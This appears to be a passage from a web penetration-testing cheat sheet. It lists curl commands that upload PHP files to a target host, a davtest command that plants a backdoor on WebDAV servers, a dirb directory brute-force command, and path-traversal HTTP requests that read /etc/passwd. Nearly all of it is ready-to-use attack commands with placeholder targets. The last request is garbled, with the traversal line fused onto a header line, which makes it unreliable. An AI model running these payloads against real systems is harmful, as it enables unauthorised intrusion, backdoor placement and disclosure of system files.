 ```console
$ curl -X POST -F "file=@/PATH/TO/FILE/<FILE>.php" http://<RHOST>/<FILE>.php --cookie "cookie"
```

#### POST Binary Data to Web Form

```console
$ curl -F "field=<file.zip" http://<RHOST>/<FILE>.php -F 'k=v' --cookie "k=v;" -F "submit=true" -L -v
```

## davtest

```console
$ davtest -auth <USERNAME>:<FOOBAR> -sendbd auto -url http://<RHOST>/<WEBDAV_DIRECTORY>/
```

## DirBuster

> https://github.com/KajanM/DirBuster

```console
-r    // don't search recursively
-w    // scan with big wordlists

$ dirb http://<RHOST>
```

## Directory Traversal Attack

### Skeleton Payload Request

```console
GET /../../../../../../../../etc/passwd HTTP/1.1
Host: <RHOST>:<RPORT>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://<RHOST>:<RPORT>/
Upgrade-Insecure-Requests: 1
```

### Read /etc/passwd

```console
GET // HTTP/1.1
Host: <RHOST>:<RPORT>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://<RHOST>:<RPORT>/
Upgrade-Insecure-Requests: 1GET /../../../../../../../../etc/passwd HTTP/1.1
```
